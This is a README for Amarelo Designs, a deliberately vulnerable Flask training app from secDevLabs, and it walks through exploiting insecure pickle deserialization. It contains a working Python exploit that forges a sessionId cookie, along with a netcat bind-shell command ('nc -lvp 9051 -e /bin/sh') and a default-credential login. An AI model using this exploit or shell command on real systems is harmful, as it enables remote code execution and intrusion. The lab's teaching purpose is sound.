





# Amarelo Designs

<p align="center">
    
</p>

This is a simple web application built with Flask that contains an example of an Software and Data Integrity Failure vulnerability and, its main goal is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain blind remote code execution.

## Index

- [Definition](#what-is-software-&-data-integrity-failure)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Software and Data Integrity Failure?

Serialization is the process of translating data structures or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Software and Data Integrity Failure** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:10008][app] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 10008, as shown by the image below:


Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    
</p>

### 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:



Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:



After decoding the cookie, which is in base64, the following structure was found:



The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


If an attacker knew that the app uses `Pickle` as the serialization method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

To be certain that the app is exploitable, we will send a sleep command to make the app unresponsive for 10 seconds. If the app takes 10 seconds to return our request, then it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```


To show how an attacker could have access to the server through an RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```



The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute code remotely through a serialization vulnerability

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
